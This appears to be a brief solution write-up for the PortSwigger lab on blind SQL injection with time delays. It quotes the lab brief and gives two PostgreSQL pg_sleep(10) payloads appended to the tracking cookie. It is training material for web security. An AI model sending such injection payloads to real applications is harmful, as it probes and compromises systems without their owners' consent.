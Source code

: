 # Blind SQL injection with time delays

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay.

---------------------------------------------

References: 

- https://portswigger.net/web-security/sql-injection/blind

- https://portswigger.net/web-security/sql-injection/cheat-sheet

---------------------------------------------



There is a SQL injection in the cookie. It uses PostgreSQL, sleep 10 seconds with:

```
COOKIE'||pg_sleep(10)--
```

```
TGjY2hbNNRAamLIb'||pg_sleep(10)--
```



![img](images/Blind%20SQL%20injection%20with%20time%20delays/1.png)

